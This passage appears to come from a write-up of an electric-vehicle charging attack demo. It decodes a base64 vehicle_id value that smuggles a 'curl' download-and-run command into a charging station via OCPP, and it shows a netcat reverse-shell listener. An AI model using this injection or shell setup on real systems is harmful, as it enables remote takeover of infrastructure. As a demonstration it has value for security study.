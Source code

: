                                                                              
                █▀▀▀▀▀█ ▀▀ ▀ ▀▄▀▀█▄ █▀█ █ █ ▀▀▀██▀ ▄█▀▀█▀▀█ ▀▄▀█  █▀▀▀▀▀█    
                █ ███ █ ▄▄███▀▀▄█▄▀█▀ █  ▀▄▀▄▀ █ ▀█▀▀▄ ▄▄▀▀▄▀▀▀█  █ ███ █    
                █ ▀▀▀ █ ██ ▄ ▀▀▄██ ▀▀▄▄█▀▀█▀▀▀██ ▀ ▄▀█▀▀ █▀▄▄▀▄▀  █ ▀▀▀ █    
                ▀▀▀▀▀▀▀ █▄▀▄▀ █ █▄█ ▀ █▄▀▄█ ▀ █ █ █▄█▄▀▄█ ▀ █ █ █ ▀▀▀▀▀▀▀    
                ▀ ▄▄▀ ▀██▄▄█▀ █▀█ ██ ▄▄▄▄██▀▀██▄▀█ ▄█▀▄▀ █▄▄█▄ ▄▄▀█▀█▀▄▄▀    
                 ▄▀▀█▄▀█▀▀▄▄▄▀▄█▄██▄▄ ▄▄▀█▀ ▀  ▄▄▀▀▀▄▄█ ▀▀  ▀  █▄ ▄▀▀▀▀▀▄    
                ▄ ▀ █▄▀▀▀  ▀ █ █▄  ██  ▀▄▄▄  █▄ ▀▄▀ ▀▀█▀▄ █▄█▄▀▄▄▀█▀ ▄▀█▀    
                ▄ ▀▄▀▀▀   ▀▄▄ ▄▄▀█▀▀ ▀█ ▀ ▀▀ █▄█ ▀▄█▄▄▀ ▀ █▀ ▄ ▄▀▀▀ █ ▀█     
                ▄▄█▀▀▄▀█  █▄▀ ▄█▀▀▀▀▀▄██▄▄▄█ ▄█ ██ ▀▀▀█  ██▄██ ▄▄▄▄█▄▀█▄█    
                ▀█▄▀█▀▀  █▀     ▀█▀█▄▄▀▀▀█   ████▄█▀▀█ ▀█▄▀█▄██▄▄██ ▀█▀█▄    
                 ▀▄▀█▀▀  ▄▀█▄ ▄▀  ▀ █▄█▄▄ ▄█ ▄█ ██ ██ ██ █▄███▀▄▄ ▄▀ ▀ █▀    
                ▀██ ▀▄▀▀▄▄█▀▀▄▄▄█▄▄██▀▄█▄▄ ▀██▄▄  ▄▄███▀   ▀▄▀▄ █▀██▀▀ ▀▄    
                ▄██▀  ▀ ▄█  █▀ ██ ▄▀███▀▄▄▄▀▄▀█ ▀█▀█▀▀▄▄▄██ ██▀▄█ ██▄█▄▄     
                 ▄█▀█▀▀▀█  █▄ ██▄█▀▄▄ ▄▄▄██▀▀▀████▀█▄▄▀▀▀▀ ▀██▄▀█▀▀▀█ ▀█     
                 ██▀█ ▀ █ ▄ ██ ▄▀ █▀▄█▀▄▄██ ▀ █▀▀█ █▀ █▄ ▄▄▄██▀▄█ ▀ █ ▄▀     
                █   ▀█▀██  ▀▄█▀ █ ▀▀▄█▄ █▀█▀▀██ ▄▀▀█  ██ ▄▀ █▀▄▀█▀▀▀█ ▀█     
                ▄█▀▄▀▄▀▀▀▀█  ▀ ▄ █▄▀▄▄█▄▄█ █▀██▄▀▄ ▀▀▀▄▄ █▄ ▀▄ ▄█▄▄█▀ ▀▀█    
                ▄▀█▄█▀▀▀▀▄▀▀█▄█ █▀  ▀█████▀▄▄▄ ▄█   █ ▄▀▀█ █ ▄███▀▄ █  ▀▀    
                ▄██▀▀▄▀█▀ ▄▄█▄ ▄▀█ ▀ ▄▀▄██▀█ █ ███▀▀▀▀▄  ▀▄ ▀█  ▀▄▀█ ██▀▀    
                ▄█▀▄ ▀▀▄▄ ▀█▀ ▄ ▄▄█▄█▀▄ ▀▀▀██▄ ▀▄█ █  ▀▀██▀▀█▄ ▀▄▀▄▀█  ▄▄    
                     ▀▀▀▄▄▄█ █ ▀ ██▀▀█ ▄▄▄█▄▀ ▄ ▀█ ██▀▄█▄▄█ ██ ▄ █ ▄▀▄▄▄▄    
                ▀█▄█▄ ▀██▄  ▀█ █ ▄▄▄█▀▀█▄▀██▄▄▄▀█▀█▄▄▄▄▄▄ ▄ ███   ▄▀ ▀ █▄    
                ▀▀ ▀▄█▀█▄█▄▀▀▄█ ▄  █▀▀▄██▄▀▄   ▄▀ ▀██▀██ ████▀▀▄ ███▀▀ ▀▀    
                █▄█▄▄▀▀█▀▀ ▀  ▀█▀ ▀▄█▀  ▀▀▀▀█ ▄▀█ ▄██ █▀▄▄▄▀▄▄▄ ▄▀▄▀█  ▀▄    
                      ▀ ██▄▄▀█▄▀  ▀█▀█▀▀▄▀█▀▀▀█ ▀█▀█▀▀█▀ ██▄▀▄▀ █▀▀▀█ ▄▄▀    
                █▀▀▀▀▀█ ▀ █▀▄▀▄██▄  █▀█▀  █ ▀ █ ▄▀█▄█ ▀ ▀▀▄▄▄▀ ▄█ ▀ █  ▀     
                █ ███ █ ▀ ▀█▄█▄▀▄▀█  ▀███▄▀▀▀█▀ ▀  ▀█ █▄▄▄▄▀██▀▄███▀▀█▄█▄    
                █ ▀▀▀ █  ▀▀██ ▄▄ ▄▀ █ █ ▄▀ ▄▀ ▀▀██ ▄▀▀█  ▀█  █ ▄▄█ ▄█▄▀      
                ▀▀▀▀▀▀▀ ▀▀▀▀  ▀▀ ▀  ▀   ▀ ▀▀▀▀  ▀▀ ▀▀ ▀  ▀▀ ▀  ▀   ▀ ▀  ▀    
                                                                             
                                                                             
            192.168.0.14 - - [09/Dec/2024 13:07:39] "GET /shawshank.tar HTTP/1.1" 200 -
            ```
            </details>

        
        - If we inspect the payload `vehicle_id=QUNNRTsgY3VybCAtTyAtSiAxOTIuMTY4LjAuMTAyOjgwODAvc2hhd3NoYW5rLnRhciA7dGFyIC14ZiBzaGF3c2hhbmsudGFyO3B5dGhvbjMgc2hhd3NoYW5rLnB5IGNoZXJpX29mZg==` we can see that it is actually `vehicle_id=ACME; curl -O -J 192.168.0.102:8080/shawshank.tar ;tar -xf shawshank.tar;python3 shawshank.py cheri_off`

    - The attacker also starts listening for a reverse shell for the time Stage 2 payload succeeds using a reverse shell handler. 

        ```bash
        nc -lvnp 9999
        listening on [any] 9999 ...
        ```

    - The attacker scans the crafted QR and starts the charging process. 
    - The central management server processes and forwards the data to verify it without any other checks to the charging station via OCPP.
    - The charging station receives the OCPP message and takes out the vehicle data and forwards it to the hw-manager service that should verify it. 
    - The hw manager runs the vehicle id through the hw-manager /verify endpoint, however it also executes part of the malicious payload. 
